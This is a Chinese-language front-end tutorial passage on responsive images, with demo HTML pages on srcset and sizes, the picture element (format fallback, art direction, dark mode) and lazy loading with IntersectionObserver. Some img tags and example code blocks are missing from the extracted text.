      <h3>⚖️ srcset vs picture 选择指南</h3>

      <table class="compare-table">
        <thead>
          <tr>
            <th>特性</th>
            <th>&lt;img&gt; + srcset/sizes</th>
            <th>&lt;picture&gt; + &lt;source&gt;</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong>同一图片不同分辨率</strong></td>
            <td style="color:#28a745;">✅ 推荐</td>
            <td style="color:#999;">可用但冗余</td>
          </tr>
          <tr>
            <td><strong>不同裁剪/构图（艺术指导）</strong></td>
            <td style="color:#dc3545;">❌ 不支持</td>
            <td style="color:#28a745;">✅ 推荐</td>
          </tr>
          <tr>
            <td><strong>格式选择（WebP/AVIF/JPG）</strong></td>
            <td style="color:#dc3545;">❌ 不支持</td>
            <td style="color:#28a745;">✅ 推荐</td>
          </tr>
          <tr>
            <td><strong>媒体查询条件控制</strong></td>
            <td style="color:#999;">仅通过 sizes 间接影响</td>
            <td style="color:#28a745;">✅ 直接通过 media 属性</td>
          </tr>
          <tr>
            <td><strong>深色模式适配</strong></td>
            <td style="color:#dc3545;">❌ 不支持</td>
            <td style="color:#28a745;">✅ 支持</td>
          </tr>
          <tr>
            <td><strong>代码复杂度</strong></td>
            <td style="color:#28a745;">⭐ 低</td>
            <td style="color:#fd7e14;">⭐⭐ 较高</td>
          </tr>
        </tbody>
      </table>
    </div>


    <!-- 核心概念说明 -->
    <div class="info-panel">
      <div class="info-item">
        <h4>📷 x 描述符（像素密度）</h4>
        <p>表示图像的<strong>像素密度倍数</strong>。2x 图像是 1x 的两倍分辨率，适用于 Retina/高分屏设备。</p>
      </div>

      <div class="info-item">
        <h4>📐 w 描述符（固有宽度）</h4>
        <p>表示图像的<strong>实际像素宽度</strong>。浏览器用此值配合 sizes 计算应下载哪个版本。</p>
      </div>

      <div class="info-item">
        <h4>📏 sizes 属性</h4>
        <p>告诉浏览器图像在<strong>不同视口宽度下的渲染尺寸</strong>。格式为媒体查询 + 长度值。</p>
      </div>

      <div class="info-item">
        <h4>🧠 浏览器选择算法</h4>
        <p><code>渲染宽度 × DPR = 目标像素宽度</code>，选择 ≥ 目标的最小候选图像。</p>
      </div>
    </div>

  </div>

  <script>
    /**
     * 实时显示当前设备和浏览器的图像选择情况
     */

    // 显示设备像素比
    const dpr = window.devicePixelRatio || 1
    document.getElementById('dprValue').textContent = dpr + 'x'

    let densityChoice = '1x'
    if (dpr >= 2.5) densityChoice = '3x (image-3x.jpg)'
    else if (dpr >= 1.5) densityChoice = '2x (image-2x.jpg)'
    else densityChoice = '1x (image-1x.jpg)'
    document.getElementById('selectedImage').textContent = densityChoice


    // 显示视口宽度相关计算
    function updateViewportInfo() {
      const vw = window.innerWidth

      document.getElementById('viewportWidth').textContent = vw

      // 根据 sizes 属性逻辑计算渲染宽度
      let renderW
      if (vw <= 600) renderW = vw  // 100vw
      else if (vw <= 1200) renderW = Math.round(vw * 0.8)  // 80vw
      else renderW = 1200  // 固定 1200px

      document.getElementById('renderWidth').textContent = renderW + 'px'

      // 计算目标像素宽度并推荐源
      const targetPx = Math.round(renderW * dpr)
      let recommended
      if (targetPx <= 400) recommended = '400w (image-400w.jpg)'
      else if (targetPx <= 800) recommended = '800w (image-800w.jpg)'
      else if (targetPx <= 1200) recommended = '1200w (image-1200w.jpg)'
      else recommended = '1600w (image-1600w.jpg)'

      document.getElementById('recommendedSrc').textContent = `${recommended} （目标 ${targetPx}px）`
    }

    updateViewportInfo()
    window.addEventListener('resize', updateViewportInfo)
  </script>

</body>
</html>
```


<h4>031-picture-element.html</h4>

```html
<!-- 来源：5-图像.md - picture 元素（格式优先 + 艺术指导 + 深色模式） -->
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>picture 元素 - 响应式图像终极方案</title>
  <style>
    * {
      margin: 0;
      padding: 0;
      box-sizing: border-box;
    }

    body {
      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
      line-height: 1.6;
      color: #333;
      background: #f5f7fa;
      padding: 40px 20px;
    }

    .container {
      max-width: 1000px;
      margin: 0 auto;
    }

    h1 { text-align: center; color: #222; margin-bottom: 8px; font-size: 32px; }
    .subtitle { text-align: center; color: #666; margin-bottom: 36px; font-size: 15px; }

    /* 演示卡片 */
    .demo-card {
      background: white;
      border-radius: 12px;
      padding: 28px;
      margin-bottom: 24px;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
    }

    .demo-card h3 {
      font-size: 18px;
      color: #333;
      margin-bottom: 12px;
      display: flex;
      align-items: center;
      gap: 8px;
    }

    .demo-card > p {
      color: #666;
      font-size: 14px;
      line-height: 1.7;
      margin-bottom: 16px;
    }

    /* 图片展示区 */
    .image-showcase {
      background: #f8f9fa;
      border-radius: 10px;
      padding: 20px;
      text-align: center;
      margin-top: 14px;
    }

    .image-showcase picture,
    .image-showcase img {
      max-width: 100%;
      height: auto;
      border-radius: 8px;
      display: block;
      margin: 0 auto;
    }

    /* 代码块 */
    .code-block {
      background: #1e1e1e;
      color: #d4d4d4;
      padding: 16px 20px;
      border-radius: 8px;
      font-family: 'Monaco', 'Menlo', monospace;
      font-size: 12px;
      line-height: 1.7;
      overflow-x: auto;
      margin-top: 14px;
    }

    .tag { color: #569cd6; }
    .attr { color: #9cdcfe; }
    .value { color: #ce9178; }
    .comment { color: #6a9955; }

    /* 场景标签 */
    .scene-badge {
      display: inline-block;
      padding: 4px 12px;
      border-radius: 20px;
      font-size: 12px;
      font-weight: 600;
      margin-left: auto;
    }

    .badge-format { background: #e8f5e9; color: #2e7d32; }
    .badge-art { background: #fff3e0; color: #e65100; }
    .badge-dark { background: #311b92; color: #b39ddb; }

    /* 格式优先级指示器 */
    .format-priority {
      display: flex;
      align-items: center;
      justify-content: center;
      gap: 10px;
      margin-top: 14px;
      padding: 12px;
      background: linear-gradient(90deg, #d4edda, #fff3cd, #fce4ec);
      border-radius: 8px;
      font-size: 13px;
      font-weight: 500;
    }

    .format-item {
      padding: 6px 14px;
      background: white;
      border-radius: 6px;
      box-shadow: 0 2px 4px rgba(0,0,0,0.08);
    }

    .format-item:first-child::before { content: "🥇 "; }
    .format-item:nth-child(2)::before { content: "🥈 "; }
    .format-item:nth-child(3)::before { content: "🥉 "; }

    /* 匹配逻辑说明 */
    .matching-flow {
      display: flex;
      flex-direction: column;
      gap: 8px;
      margin-top: 14px;
      padding: 16px;
      background: #f0f4f8;
      border-radius: 8px;
      font-size: 13px;
    }

    .flow-step {
      display: flex;
      align-items: center;
      gap: 10px;
      padding: 8px 12px;
      background: white;
      border-radius: 6px;
    }

    .flow-num {
      width: 24px;
      height: 24px;
      background: #0066cc;
      color: white;
      border-radius: 50%;
      display: flex;
      align-items: center;
      justify-content: center;
      font-size: 12px;
      font-weight: bold;
      flex-shrink: 0;
    }

    @media (prefers-color-scheme: dark) {
      body { background: #1a1a2e; color: #e0e0e0; }
      .demo-card { background: #16213e; }
      .code-block { background: #0f0f23; }
      .image-showcase { background: #1a1a2e; }
    }
  </style>
</head>
<body>

  <div class="container">
    <h1>🎨 picture 元素</h1>
    <p class="subtitle">格式选择 / 艺术指导 / 深色模式 — 响应式图像的终极方案</p>


    <!-- 场景 1：格式优先（AVIF → WebP → JPEG） -->
    <div class="demo-card">
      <h3>
        🖼️ 场景一：格式优先
        <span class="scene-badge badge-format">推荐</span>
      </h3>
      <p>
        按<strong>现代格式优先</strong>排列 &lt;source&gt;，浏览器会选择其支持的最优格式。
        推荐顺序：<strong>AVIF → WebP → JPEG/PNG</strong>，
        同时配合分辨率适配。
      </p>

      <div class="image-showcase">
        <picture>
          <!-- 优先级 1：AVIF（最新格式，压缩率最高） -->
          <source
            type="image/avif"
            srcset="https://picsum.photos/800/500?random=1&avif" />

          <!-- 优先级 2：WebP（现代格式，兼容性好） -->
          <source
            type="image/webp"
            srcset="https://picsum.photos/800/500?random=1&webp" />

          <!-- 回退：JPEG（所有浏览器支持） -->
          
        </picture>
      </div>

      <div class="format-priority">
        浏览器选择优先级：
        <span class="format-item">AVIF (最小)</span> →
        <span class="format-item">WebP (较小)</span> →
        <span class="format-item">JPEG (兜底)</span>
      </div>

      <div class="code-block">
<span class="tag">&lt;picture&gt;</span>
  <span class="comment">&lt;!-- 优先级 1: AVIF（压缩率最高）--&gt;</span>
  <span class="tag">&lt;source</span> <span class="attr">type</span>=<span class="value">"image/avif"</span>
         <span class="attr">srcset</span>=<span class="value">"photo.avif"</span> /&gt;

  <span class="comment">&lt;!-- 优先级 2: WebP（兼容性好）--&gt;</span>
  <span class="tag">&lt;source</span> <span class="attr">type</span>=<span class="value">"image/webp"</span>
         <span class="attr">srcset</span>=<span class="value">"photo.webp"</span> /&gt;

  <span class="comment">&lt;!-- 兜底回退：JPEG --&gt;</span>
  <span class="tag">&lt;img</span> <span class="attr">src</span>=<span class="value">"photo.jpg"</span>
       <span class="attr">alt</span>=<span class="value">"照片"</span>
       <span class="attr">loading</span>=<span class="value">"lazy"</span> /&gt;
<span class="tag">&lt;/picture&gt;</span>
      </div>
    </div>


    <!-- 场景 2：艺术指导（不同视口不同构图） -->
    <div class="demo-card">
      <h3>
        📐 场景二：艺术指导
        <span class="scene-badge badge-art">Art Direction</span>
      </h3>
      <p>
        不同屏幕尺寸下显示<strong>不同裁剪或构图</strong>的图像。
        移动端使用竖屏特写，桌面端使用横屏全景。
        这是 &lt;img&gt; + srcset 无法实现的能力。
      </p>

      <div class="image-showcase">
        <picture>
          <!-- 移动端：竖屏裁剪 -->
          <source
            media="(max-width: 640px)"
            srcset="https://picsum.photos/400/600?random=2"
            type="image/jpeg" />

          <!-- 平板/桌面：横屏全景 -->
          <source
            media="(min-width: 641px)"
            srcset="https://picsum.photos/900/400?random=2"
            type="image/jpeg" />

          <!-- 默认回退 -->
          
        </picture>
      </div>

      <div class="code-block">
<span class="tag">&lt;picture&gt;</span>
  <span class="comment">&lt;!-- 移动端：竖屏特写 --&gt;</span>
  <span class="tag">&lt;source</span>
    <span class="attr">media</span>=<span class="value">"(max-width: 640px)"</span>
    <span class="attr">srcset</span>=<span class="value">"hero-mobile.webp"</span>
    <span class="attr">type</span>=<span class="value">"image/webp"</span> /&gt;

  <span class="comment">&lt;!-- 桌面端：横屏全景 --&gt;</span>
  <span class="tag">&lt;source</span>
    <span class="attr">media</span>=<span class="value">"(min-width: 641px)"</span>
    <span class="attr">srcset</span>=<span class="value">"hero-desktop.webp"</span>
    <span class="attr">type</span>=<span class="value">"image/webp"</span> /&gt;

  <span class="comment">&lt;!-- 回退 --&gt;</span>
  <span class="tag">&lt;img</span> <span class="attr">src</span>=<span class="value">"hero-desktop.jpg"</span>
       <span class="attr">alt</span>=<span class="value">"Hero 图像"</span> /&gt;
<span class="tag">&lt;/picture&gt;</span>
      </div>
    </div>


    <!-- 场景 3：深色模式适配 -->
    <div class="demo-card">
      <h3>
        🌙 场景三：深色模式适配
        <span class="scene-badge badge-dark">Dark Mode</span>
      </h3>
      <p>
        利用 <strong>prefers-color-scheme</strong> 媒体查询为深色模式提供不同的图片版本，
        提升用户在不同主题下的视觉体验。
      </p>

      <div class="image-showcase" style="background: transparent;">
        <picture>
          <!-- 深色模式：暗色背景图 -->
          <source
            media="(prefers-color-scheme: dark)"
            srcset="https://picsum.photos/800/350?random=3&grayscale"
            type="image/jpeg" />

          <!-- 浅色模式：正常彩色图 -->
          
        </picture>
      </div>

      <p style="text-align:center; margin-top: 10px; font-size: 13px; color: #888;">
        💡 提示：切换操作系统的深色/浅色模式，观察上方图像变化
      </p>

      <div class="code-block">
<span class="tag">&lt;picture&gt;</span>
  <span class="comment">&lt;!-- 深色模式：暗色调图片 --&gt;</span>
  <span class="tag">&lt;source</span>
    <span class="attr">media</span>=<span class="value">"(prefers-color-scheme: dark)"</span>
    <span class="attr">srcset</span>=<span class="value">"banner-dark.webp"</span>
    <span class="attr">type</span>=<span class="value">"image/webp"</span> /&gt;

  <span class="comment">&lt;!-- 浅色模式：正常图片 --&gt;</span>
  <span class="tag">&lt;img</span> <span class="attr">src</span>=<span class="value">"banner-light.jpg"</span>
       <span class="attr">alt</span>=<span class="value">"横幅"</span> /&gt;
<span class="tag">&lt;/picture&gt;</span>
      </div>
    </div>


    <!-- picture 元素匹配逻辑 -->
    <div class="demo-card">
      <h3>🔄 浏览器匹配逻辑流程</h3>

      <div class="matching-flow">
        <div class="flow-step">
          <span class="flow-num">1</span>
          按 &lt;source&gt; 声明顺序依次遍历子元素
        </div>
        <div class="flow-step">
          <span class="flow-num">2</span>
          检查当前 source 是否有 media 属性？
          <br><small style="color:#888;">有 → 检查媒体查询是否匹配 | 无 → 进入步骤 3</small>
        </div>
        <div class="flow-step">
          <span class="flow-num">3</span>
          检查是否有 type 属性？
          <br><small style="color:#888;">有 → 浏览器是否支持该 MIME 类型？| 无 → 直接选中</small>
        </div>
        <div class="flow-step">
          <span class="flow-num">4</span>
          ✅ 首次命中即停止，使用选中的 source 的 srcset
        </div>
        <div class="flow-step" style="background: #fff3cd;">
          <span class="flow-num" style="background: #fd7e14;">!</span>
          所有 source 都不匹配？→ 使用 &lt;img&gt; 作为最终回退
        </div>
      </div>

      <p style="margin-top: 16px; padding: 14px; background: #e3f2fd; border-radius: 8px; font-size: 13px; color: #004085;">
        <strong>⚠️ 重要：</strong>&lt;picture&gt; 内必须包含一个 &lt;img&gt; 元素作为回退！
        浏览器按声明顺序匹配，命中第一个符合条件的 &lt;source&gt; 后立即停止；
        如果所有 &lt;source&gt; 都不匹配，则显示 &lt;img&gt; 的内容。
      </p>
    </div>

  </div>

</body>
</html>
```

### srcset 属性

`srcset` 属性允许指定多个图像源，浏览器会根据设备特性选择最合适的图像。

**基本用法（基于像素密度）：**

```html

```

**基于宽度的描述符：**

```html

```

### sizes 属性

`sizes` 属性与 `srcset` 配合使用，告诉浏览器在不同视口宽度下图像的显示尺寸。

```html

```

**sizes 语法说明：**

- `(max-width: 600px) 100vw`：视口宽度 ≤ 600px 时，图像占满视口宽度
- `(max-width: 1200px) 50vw`：视口宽度 ≤ 1200px 时，图像占视口宽度的 50%
- `800px`：默认情况下，图像宽度为 800px

**完整示例：**

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>响应式图像</title>
    <style>
      .responsive-img {
        width: 100%;
        height: auto;
        display: block;
      }
    </style>
  </head>
  <body>
    
  </body>
</html>
```

#### 浏览器 srcset 选择算法

浏览器在解析 `srcset` + `sizes` 时，会按照以下流程选择最合适的图像源：



::: tip **关键要点**
- 浏览器会在**下载前**做出选择，不会下载多个版本再比较
- `sizes` 属性的值直接影响最终选择的图像，务必准确设置
- 当 `srcset` 使用 `w` 描述符时，必须配合 `sizes` 属性
:::

### picture 元素

`<picture>` 元素提供了更强大的响应式图像控制，支持艺术指导（Art Direction）和格式选择。

**基本结构：**

```html
<picture>
  <source media="(max-width: 600px)" srcset="portrait-mobile.jpg" />
  <source media="(max-width: 1200px)" srcset="landscape-tablet.jpg" />
  <source type="image/webp" srcset="image.webp" />
  
</picture>
```

::: warning
`<picture>` 内必须包含一个 `` 元素作为回退。浏览器按 `<source>` 声明顺序匹配，命中第一个符合条件的 `<source>` 后即停止；如果所有 `<source>` 都不匹配，则显示 ``。
:::

#### `<picture>` 元素匹配逻辑

浏览器处理 `<picture>` 元素时的匹配流程如下：



::: tip **匹配优先级建议**
1. 将**最具体的媒体查询**放在前面（如移动端特定尺寸）
2. **格式选择**的 `source` 放在媒体查询之后
3. 始终保留最后的 `` 作为兜底回退
:::

**核心使用场景：**

1. **艺术指导（Art Direction）**：不同屏幕显示不同裁剪的图像
2. **格式选择**：为支持新格式的浏览器提供最优格式
3. **条件加载**：根据媒体查询加载不同图像

#### 场景 1：格式优先——AVIF → WebP → JPEG

这是最常见的用法，按格式优先级排列 `<source>`，让浏览器选择其支持的最优格式：

```html
<picture>
  <source type="image/avif" srcset="photo.avif" />
  <source type="image/webp" srcset="photo.webp" />
  
</picture>
```

**格式优先级推荐：** AVIF > WebP > JPEG/PNG

#### 场景 2：艺术指导——不同视口使用不同构图

移动端显示竖屏裁剪，桌面端显示横屏全图：

```html
<picture>
  <source media="(max-width: 640px)" srcset="hero-mobile.webp" type="image/webp" />
  <source media="(max-width: 640px)" srcset="hero-mobile.jpg" />
  <source media="(min-width: 641px)" srcset="hero-desktop.webp" type="image/webp" />
  <source media="(min-width: 641px)" srcset="hero-desktop.jpg" />
  
</picture>
```

#### 场景 3：格式 + 响应式尺寸组合

同时处理格式选择和分辨率适配：

```html
<picture>
  <source
    type="image/avif"
    srcset="photo-400.avif 400w, photo-800.avif 800w, photo-1200.avif 1200w"
    sizes="(max-width: 600px) 100vw, 800px" />
  <source
    type="image/webp"
    srcset="photo-400.webp 400w, photo-800.webp 800w, photo-1200.webp 1200w"
    sizes="(max-width: 600px) 100vw, 800px" />
  
</picture>
```

#### 场景 4：深色模式适配

利用 `media` 属性的 `prefers-color-scheme` 为深色模式提供不同图片：

```html
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="banner-dark.webp" type="image/webp" />
  <source media="(prefers-color-scheme: dark)" srcset="banner-dark.jpg" />
  <source srcset="banner-light.webp" type="image/webp" />
  
</picture>
```

#### `<picture>` 与 `` + `srcset` 的选择

| 特性               | `` + `srcset`/`sizes` | `<picture>` + `<source>` |
| ------------------ | -------------------------- | ------------------------ |
| 同一图片不同分辨率 | ✅ 推荐                    | 可用但冗余               |
| 不同裁剪/构图      | ❌ 不支持                  | ✅ 推荐                  |
| 格式选择           | ❌ 不支持                  | ✅ 推荐                  |
| 媒体查询条件       | 仅通过 `sizes` 间接影响    | ✅ 直接通过 `media` 属性 |
| 代码复杂度         | 低                         | 较高                     |

**决策原则：** 如果只需要分辨率适配，用 `` + `srcset`/`sizes` 即可；如果需要格式选择或艺术指导，使用 `<picture>`。

## 性能优化

<h4>032-image-lazy-loading.html</h4>

```html
<!-- 来源：5-图像.md - 图像懒加载（loading="lazy" + IntersectionObserver） -->
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>图像懒加载技术</title>
  <style>
    * {
      margin: 0;
      padding: 0;
      box-sizing: border-box;
    }

    body {
      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
      line-height: 1.6;
      color: #333;
      background: #f5f7fa;
    }

    /* 导航栏 */
    .navbar {
      position: sticky;
      top: 0;
      background: white;
      padding: 16px 30px;
      box-shadow: 0 2px 8px rgba(0,0,0,0.06);
      z-index: 100;
      display: flex;
      align-items: center;
      justify-content: space-between;
    }

    .navbar h1 {
      font-size: 20px;
      color: #0066cc;
    }

    .stats-bar {
      display: flex;
      gap: 20px;
      font-size: 13px;
      color: #666;
    }

    .stat-item {
      display: flex;
      align-items: center;
      gap: 6px;
    }

    .stat-value {
      font-weight: 700;
      color: #0066cc;
      font-size: 16px;
    }

    /* 主内容区 */
    main {
      max-width: 1000px;
      margin: 0 auto;
      padding: 30px 20px;
    }

    h2 {
      font-size: 22px;
      color: #222;
      margin-bottom: 8px;
    }

    .section-desc {
      color: #666;
      font-size: 14px;
      margin-bottom: 24px;
    }

    /* 首屏区域（立即加载） */
    .hero-section {
      text-align: center;
      padding: 40px 20px;
      margin-bottom: 40px;
      background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
      border-radius: 16px;
      color: white;
    }

    .hero-section h2 {
      color: white;
      font-size: 28px;
      margin-bottom: 12px;
    }

    .hero-section p { opacity: 0.9; max-width: 600px; margin: 0 auto; }

    .hero-image-container {
      margin-top: 24px;
      border-radius: 12px;
      overflow: hidden;
      box-shadow: 0 8px 32px rgba(0,0,0,0.2);
    }

    .hero-image-container img {
      width: 100%;
      max-width: 700px;
      height: auto;
      display: block;
      margin: 0 auto;
    }


    /* 图片画廊（懒加载演示区） */
    .gallery-grid {
      display: grid;
      grid-template-columns: repeat(auto-fill, minmax(280px, 1fr));
      gap: 20px;
      margin-top: 20px;
    }

    .gallery-item {
      background: white;
      border-radius: 12px;
      overflow: hidden;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
      transition: transform 0.3s, box-shadow 0.3s;
    }

    .gallery-item:hover {
      transform: translateY(-4px);
      box-shadow: 0 8px 24px rgba(0,0,0,0.12);
    }

    .gallery-image-wrapper {
      position: relative;
      background: #f0f0f0;
      aspect-ratio: 4/3;
      overflow: hidden;
    }

    .gallery-image-wrapper img {
      width: 100%;
      height: 100%;
      object-fit: cover;
      /* 懒加载过渡效果 */
      opacity: 0;
      transition: opacity 0.5s ease-out;
    }

    .gallery-image-wrapper img.loaded {
      opacity: 1;
    }

    /* 骨架屏占位 */
    .skeleton {
      position: absolute;
      top: 0; left: 0; right: 0; bottom: 0;
      background: linear-gradient(90deg, #f0f0f0 25%, #e0e0e0 50%, #f0f0f0 75%);
      background-size: 200% 100%;
      animation: shimmer 1.5s infinite;
    }

    @keyframes shimmer {
      0% { background-position: 200% 0; }
      100% { background-position: -200% 0; }
    }

    .gallery-info {
      padding: 14px 16px;
    }

    .gallery-info h4 {
      font-size: 15px;
      color: #222;
      margin-bottom: 4px;
    }

    .gallery-info p {
      font-size: 12px;
      color: #888;
    }

    .load-badge {
      display: inline-block;
      padding: 2px 8px;
      border-radius: 4px;
      font-size: 11px;
      font-weight: 600;
      margin-left: 8px;
    }

    .badge-native { background: #d4edda; color: #155724; }
    .badge-observer { background: #cce5ff; color: #004085; }
    .badge-eager { background: #fff3cd; color: #856404; }


    /* 技术说明卡片 */
    .tech-cards {
      display: grid;
      grid-template-columns: repeat(auto-fit, minmax(300px, 1fr));
      gap: 20px;
      margin-top: 30px;
    }

    .tech-card {
      background: white;
      border-radius: 12px;
      padding: 24px;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
    }

    .tech-card h3 {
      font-size: 17px;
      color: #333;
      margin-bottom: 10px;
      display: flex;
      align-items: center;
      gap: 8px;
    }

    .tech-card p {
      font-size: 14px;
      color: #666;
      line-height: 1.7;
      margin-bottom: 12px;
    }

    .code-snippet {
      background: #1e1e1e;
      color: #d4d4d4;
      padding: 12px 16px;
      border-radius: 6px;
      font-family: 'Monaco', monospace;
      font-size: 12px;
      line-height: 1.6;
      overflow-x: auto;
    }

    .tag { color: #569cd6; }
    .attr { color: #9cdcfe; }
    .value { color: #ce9178; }
    .comment { color: #6a9955; }
  </style>
</head>
<body>

  <!-- 固定导航栏 + 统计 -->
  <nav class="navbar">
    <h1>🖼️ 图像懒加载演示</h1>
    <div class="stats-bar">
      <div class="stat-item">
        总图片数：<span class="stat-value" id="totalImages">--</span>
      </div>
      <div class="stat-item">
        已加载：<span class="stat-value" id="loadedImages">0</span>
      </div>
      <div class="stat-item">
        懒加载节省：<span class="stat-value" id="savedBytes">--</span>
      </div>
    </div>
  </nav>

  <main>

    <!-- 首屏 Hero 区域：立即加载 -->
    <section class="hero-section">
      <h2>⚡ 首屏关键图像</h2>
      <p>使用 loading="eager" + fetchpriority="high" 立即加载，不等待进入视口</p>

      <div class="hero-image-container">
        
      </div>
    </section>


    <!-- 懒加载图片画廊 -->
    <section>
      <h2>📸 内容图库（懒加载）</h2>
      <p class="section-desc">向下滚动查看图片懒加载效果。图片在接近视口时才会开始加载。</p>

      <div class="gallery-grid" id="galleryGrid">

        <!-- 原生 lazy 加载的图片 -->
        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>山间日出 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>城市夜景 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>海边日落 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>森林小径 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>摩天大楼 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

        <div class="gallery-item">
          <div class="gallery-image-wrapper">
            <div class="skeleton"></div>
            
          </div>
          <div class="gallery-info">
            <h4>精致甜点 <span class="load-badge badge-native">Native Lazy</span></h4>
            <p>loading="lazy" — 浏览器原生支持</p>
          </div>
        </div>

      </div>
    </section>


    <!-- 技术说明 -->
    <div class="tech-cards">

      <div class="tech-card">
        <h3>🔋 方式一：原生 loading="lazy"</h3>
        <p>HTML 原生属性，浏览器内置支持。简单易用，推荐优先使用。</p>
        <div class="code-snippet">
<span class="tag">&lt;img</span>
  <span class="attr">src</span>=<span class="value">"photo.jpg"</span>
  <span class="attr">alt</span>=<span class="value">"描述"</span>
  <span class="attr">loading</span>=<span class="value">"lazy"</span>       <span class="comment">&lt;!-- 进入视口才加载 --&gt;</span>
  <span class="attr">decoding</span>=<span class="value">"async"</span>     <span class="comment">&lt;!-- 异步解码不阻塞 --&gt;</span>
<span class="tag">/&gt;</span>
        </div>
        <p style="font-size: 12px; color: #888; margin-top: 8px;">
          ✅ Chromium 76+ | Firefox 75+ | Safari 15.4+<br>
          ⚠️ 距视口约 125px-250px 时触发（因浏览器而异）
        </p>
      </div>

      <div class="tech-card">
        <h3>🎯 方式二：IntersectionObserver</h3>
        <p>JavaScript API，可自定义 rootMargin、threshold 和加载动画。</p>
        <div class="code-snippet">
<span class="keyword">const</span> observer = <span class="keyword">new</span> IntersectionObserver(
  (entries) => {
    entries.<span class="function">forEach</span>(entry => {
      <span class="keyword">if</span> (entry.isIntersecting) {
        entry.target.src = entry.target.dataset.src
        observer.<span class="function">unobserve</span>(entry.target)
      }
    })
  },
  { rootMargin: <span class="string">'200px'</span> }  <span class="comment">&lt;!-- 提前 200px 触发 --&gt;</span>
)
        </div>
        <p style="font-size: 12px; color: #888; margin-top: 8px;">
          ✅ 精细控制 | 支持自定义动画<br>
          💡 可配合 decode() 实现非阻塞渲染
        </p>
      </div>

      <div class="tech-card">
        <h3>⚡ 首屏图像：立即加载</h3>
        <p>首屏关键图像不应使用懒加载，应立即加载并设置高优先级。</p>
        <div class="code-snippet">
<span class="tag">&lt;img</span>
  <span class="attr">src</span>=<span class="value">"hero.jpg"</span>
  <span class="attr">loading</span>=<span class="value">"eager"</span>           <span class="comment">&lt;!-- 立即加载 --&gt;</span>
  <span class="attr">fetchpriority</span>=<span class="value">"high"</span>   <span class="comment">&lt;!-- 高优先级 --&gt;</span>
  <span class="attr">decoding</span>=<span class="value">"sync"</span>         <span class="comment">&lt;!-- 同步解码 --&gt;</span>
<span class="tag">/&gt;</span>
        </div>
        <p style="font-size: 12px; color: #888; margin-top: 8px;">
          📌 Hero Image / Logo / Above Fold Images<br>
          🎯 使用 eager + fetchpriority="high"
        </p>
      </div>

    </div>

  </main>

  <script>
    /**
     * 统计面板更新逻辑
     */

    let loadedCount = 0

    // 初始化统计
    function initStats() {
      const total = document.querySelectorAll('.gallery-image-wrapper img').length + 1 // +1 for hero
      document.getElementById('totalImages').textContent = total
      // 估算节省带宽（假设每张懒加载图 ~150KB）
      document.getElementById('savedBytes').textContent = '~' + ((total - 1) * 150) + 'KB'
    }

    function updateStats() {
      loadedCount++
      document.getElementById('loadedImages').textContent = loadedCount
    }

    initStats()

    /**
     * 为所有带 data-src 的图片启用懒加载
     * （配合原生 loading="lazy" 的降级方案）
     */
    document.querySelectorAll('img[data-src]').forEach(img => {
      // 如果浏览器支持原生 lazy 且已有 loading 属性，则不需要 JS 处理
      if ('loading' in HTMLImageElement.prototype && img.hasAttribute('loading')) {
        img.src = img.dataset.src
        return
      }

      // 降级方案：使用 IntersectionObserver
      const observer = new IntersectionObserver((entries) => {
        entries.forEach(entry => {
          if (entry.isIntersecting) {
            const img = entry.target
            img.src = img.dataset.src
            observer.unobserve(img)
          }
        })
      }, { rootMargin: '200px' })

      observer.observe(img)
    })
  </script>

</body>
</html>
```


<h4>034-image-preloader-class.html</h4>

```html
<!-- 来源：5-图像.md - ImagePreloader 图像预加载类封装 -->
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>ImagePreloader - 图像预加载管理器</title>
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }

    body {
      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif;
      line-height: 1.6;
      color: #333;
      background: #f5f7fa;
      padding: 40px 20px;
    }

    .container { max-width: 1000px; margin: 0 auto; }

    h1 { text-align: center; color: #222; margin-bottom: 8px; font-size: 32px; }
    .subtitle { text-align: center; color: #666; margin-bottom: 36px; font-size: 15px; }

    /* 控制面板 */
    .control-panel {
      background: white;
      border-radius: 12px;
      padding: 24px;
      margin-bottom: 24px;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
    }

    .control-panel h3 {
      font-size: 17px;
      color: #333;
      margin-bottom: 16px;
    }

    .controls-row {
      display: flex;
      flex-wrap: wrap;
      gap: 12px;
      align-items: center;
    }

    .btn {
